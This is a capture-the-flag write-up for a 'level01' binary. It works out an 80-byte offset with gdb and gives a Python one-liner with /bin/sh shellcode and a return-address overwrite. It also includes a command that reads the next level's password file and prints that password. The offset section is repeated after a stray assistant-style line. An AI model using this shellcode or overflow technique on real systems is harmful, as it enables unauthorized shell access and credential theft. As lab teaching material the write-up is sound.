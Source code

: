 
# Level01 Challenge Solution

### . Determine the Offset
Using `gdb` with a cyclic pattern:
```bash
gdb ./level01
pwndbg> cyclic 200
pwndbg> run
# Enter username: "dat_wil"
# Enter password: [cyclic pattern]
```
The program crashes at `0x61616175` ("uaaa"):
```bash
pwndbg> cyclic -l uaaa
80
```
**Offset to EIP: 80 bytes**

## Exploit Summary
This exploit bypasses authentication and spawns a shell by:
1. Passing the username check with `"dat_wil"`
2. Injecting shellcode into memory
3. Overflowing the password buffer to hijack execution

## Modified Exploit Command
```python
python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'B'*80 + '\x47\xa0\x04\x08'" > /tmp/abderrafie
```

### Key Changes:
1. **Output File**: `/tmp/abderrafie` (formerly `/tmp/inj01`)
2. **Padding**: Replaced cyclic pattern with `'B'*80` for simplicity

## Components Explained

| Part | Content | Purpose |
|------|---------|---------|
| Username | `dat_wil` | Bypasses the username check |
| Shellcode | `\x6a\x0b\x58...` | Spawns `/bin/sh` (23 bytes) |
| Newline | `\n` | Separates username/password inputs |
| Padding | `'B'*80` | Fills buffer until EIP overwrite |
| EIP | `\x47\xa0\x04\x08` | Jumps to shellcode at `0x0804a047` |

## Execution
```bash
cat /tmp/abderrafie - | ./level01
```
- **Expected Result**: Opens a shell with `level02` privileges

## Post-Exploit
Retrieve the password for the next level:
```bash
cat /home/users/level02/.pass
```

---

### the password for the next level is:
```
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```





Here's a **detailed README.md** for your `level01` challenge based on the exploit you developed:

---


### 1. Determine the Offset
Using `gdb` with a cyclic pattern:
```bash
gdb ./level01
pwndbg> cyclic 200
pwndbg> run
# Enter username: "dat_wil"
# Enter password: [cyclic pattern]
```
The program crashes at `0x61616175` ("uaaa"):
```bash
pwndbg> cyclic -l uaaa
80
```
**Offset to EIP: 80 bytes**

---

